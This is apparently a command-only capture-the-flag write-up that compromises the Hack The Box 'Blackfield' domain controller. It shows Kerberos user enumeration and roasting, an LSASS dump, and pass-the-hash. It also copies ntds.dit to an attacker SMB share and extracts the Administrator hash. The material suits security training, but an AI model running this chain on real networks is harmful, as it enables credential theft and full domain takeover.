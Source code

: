 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.192
nmap -sU -T5 10.10.10.192
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fbd9d1ba-1de4-40ac-9315-7e4696e0411e)

![image](https://github.com/regarmulia/HTB/assets/33616880/61dfed10-6cd7-4e56-86b3-6de25c80beca)

```
smbclient -L \\\\10.10.10.192\\
smbclient \\\\10.10.10.192\\profiles$

RECURSE ON
PROMPT OFF
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6270846a-059e-44b7-8ea9-b85e2b4580fe)

```
ls -la | awk -F' ' '{print $9}' > users2.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8356828b-c804-409c-9614-eb7a07575f9c)

```
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local /home/itsec/Documents/HTB-Blackfield/users2.txt
audit2020@BLACKFIELD.local
svc_backup@BLACKFIELD.local
support@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8351ac91-ddd0-4beb-b7a5-07b826d5ea17)

```
crackmapexec smb 10.10.10.192 -u users1.txt -p /usr/share/wordlists/rockyou.txt
smbclient -L \\\\10.10.10.192\\ -U BLACKFIELD.local/audit2020@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/85ac138e-3b1c-425d-a7e0-02a1459f064c)

![image](https://github.com/regarmulia/HTB/assets/33616880/8e443d07-17a2-4bb0-9581-bce86b966fce)

```
./GetNPUsers.py blackfield.local/ -no-pass -usersfile users1.txt -dc-ip 10.10.10.192
john hash1 -w=/usr/share/wordlists/rockyou.txt
#00^BlackKnight
```
![image](https://github.com/regarmulia/HTB/assets/33616880/cd8865bb-864f-46ec-a29a-696611744770)

```
neo4j console
bloodhound
python3 bloodhound.py -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f5252e0-d56f-416b-aaf0-8199b768611d)

![image](https://github.com/regarmulia/HTB/assets/33616880/690ab874-b2ed-44ad-bcb1-7c905f601270)

![image](https://github.com/regarmulia/HTB/assets/33616880/32338d7d-8555-4e26-a012-c3c73abde14f)

```
Raw Query: MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce0c48d4-04cd-4b3e-a357-3cc24d23fd19)

```
rpcclient -U blackfield/support 10.10.10.192
setuserinfo audit2020 23 H@CKTHEB0X#
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3fcc9b61-e949-403c-b3d0-0f1ba9be236a)

```
crackmapexec smb 10.10.10.192 -u audit2020 -p H@CKTHEB0X# --shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c73a397a-31c3-4313-aa78-b82fe0c9cb65)

```
smbclient \\\\10.10.10.192\\forensic -U BLACKFIELD.local/audit2020
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cdfea40-0d79-4ece-a450-5ed8604b2335)

![image](https://github.com/regarmulia/HTB/assets/33616880/8c7006c9-71e4-4385-b060-5935ca36c2b1)

![image](https://github.com/regarmulia/HTB/assets/33616880/00b5ff21-a352-44d2-bb4d-edd7d42e6538)

```
pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ac6320b3-ffcf-45b9-978f-fff33a0cb42c)

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes2
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users2
```
![image](https://github.com/regarmulia/HTB/assets/33616880/67de1db3-ce5b-473e-bc56-0830ba2c0aa3)

![image](https://github.com/regarmulia/HTB/assets/33616880/5d9c4b09-a763-4a23-9699-47c2fdee4885)

```
crackmapexec smb 10.10.10.192 -u users2 -H hashes2
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f3fa841-a28a-4cec-a91c-646e37b6e8eb)

![image](https://github.com/regarmulia/HTB/assets/33616880/40295828-c67e-423a-9faa-709ea9d8f29e)

```
whoami /priv
```
![image](https://github.com/regarmulia/HTB/assets/33616880/99ce04fc-b535-454b-9415-909b01ac2c76)

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d74df300-d472-4da8-b81b-ad4f1f632746)

![image](https://github.com/regarmulia/HTB/assets/33616880/d8f521b9-4937-403d-b9e2-d10cb0bfdf00)

```
git clone https://github.com/giuliano108/SeBackupPrivilege.git
cd C:\programdata
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8918071a-bc69-46c9-a0e8-ddce40280dff)

![image](https://github.com/regarmulia/HTB/assets/33616880/c311daad-df7a-4bcc-b229-70f7a2c76260)

```
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
cd C:\windows\system32\config
type netlogon.dns
Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
type \programdata\netlogon.dns
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c0b388c-25d4-4184-bb14-3c61515f856f)

![image](https://github.com/regarmulia/HTB/assets/33616880/2ee6d268-90fc-47d1-94bd-dc4f77972e9b)

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fecb8fe9-4740-46b8-a14b-d3479761ef23)

```
https://pentestlab.blog/tag/diskshadow/
upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh
unix2dos vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d7f6af1-934b-4279-b5eb-e8c788d625b4)

![image](https://github.com/regarmulia/HTB/assets/33616880/95425630-c31e-492a-9b94-1ddcd202f19d)

```
Vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d2c6e1b2-b0fb-4966-b838-a601662324bb)

```
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.13\s /u:df df
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.13\s\ntds.dit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ace2cfb7-7a8e-45dd-a6f7-0d9962f32d5b)

![image](https://github.com/regarmulia/HTB/assets/33616880/b5095fad-0969-4aea-8fc9-5f61ff515ed2)

![image](https://github.com/regarmulia/HTB/assets/33616880/03292ed3-ef4c-40d9-824d-d0ad1fea814c)

```
./secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```
![image](https://github.com/regarmulia/HTB/assets/33616880/401b1100-989a-4eb6-861c-617b767fe70e)

```
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ba294f55-c00a-4a3a-8c26-2111bc1c8a5e)
